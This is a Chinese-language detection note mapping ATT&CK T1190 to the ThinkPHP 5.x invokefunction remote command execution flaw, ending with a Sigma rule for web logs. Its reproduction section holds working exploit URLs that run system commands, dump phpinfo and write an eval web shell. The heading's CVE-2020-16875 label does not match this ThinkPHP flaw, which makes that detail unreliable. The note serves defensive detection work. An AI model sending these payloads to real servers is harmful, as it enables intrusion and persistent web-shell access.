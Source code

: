 # T1190-Thinkphp 5.x远程命令执行漏洞检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“ 利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## CVE-2020-16875漏洞

### 简介

ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

### 影响版本

5.x < 5.1.31, <= 5.0.23

## 测试案例

漏洞分析及漏洞利用可参考Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>

## 检测日志

HTTP_log，访问日志也可以

## 测试复现

1.利用system函数远程命令执行

```yml
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

2.通过phpinfo函数写出phpinfo()的信息

```yml
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

3.写入shell:

```yml
http://localhost:9096/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22code%22])?^%3E%3Eshell.php
```

或者

```yml
http://localhost:9096/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php echo 'ok';?>
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

```yml
title: Thinkphp 5.x远程命令执行漏洞
description: 通过访问日志orHttp.log检测Thinkphp 5.x远程命令执行漏洞利用行为
translator: 12306Bro
date: 2020/12/12
status: experimental
references:
    - https://www.cnblogs.com/backlion/p/10106676.html
logsource:
    category: webserver
detection:
    selection:
        c-uri:
            - '/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array'
    condition: selection
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
level: critical
```

## 建议

最近在部分现场分析时遇到的，特记录。可以根据具体payload来判断是否为真实攻击。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>